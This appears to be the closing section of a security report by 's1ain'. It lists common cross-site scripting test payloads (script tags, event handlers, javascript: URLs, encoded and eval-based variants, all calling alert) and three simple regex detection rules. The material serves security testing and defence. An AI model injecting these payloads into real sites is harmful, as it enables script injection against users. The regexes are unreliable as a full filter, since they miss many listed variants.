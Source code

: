 ### Complete Attack Payload List

```javascript
// 1. Basic script injection
<script>alert('XSS')</script>

// 2. Event handlers
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>
<body onload=alert('XSS')>

// 3. JavaScript URLs
<a href="javascript:alert('XSS')">click</a>

// 4. HTML5 new tags
<details open ontoggle=alert('XSS')>
<audio src=x onerror=alert('XSS')>

// 5. Encoding bypass
&#60;script&#62;alert('XSS')&#60;/script&#62;

// 6. Polyglot attacks
<script>eval(String.fromCharCode(97,108,101,114,116,40,39,88,83,83,39,41))</script>
```

### Detection Rules

```regex
# Basic XSS detection regex
/<script[^>]*>.*?<\/script>/i
/on\w+\s*=\s*["'][^"']*["']/i
/javascript\s*:/i
```

---

**Report Compiled By**: s1ain  
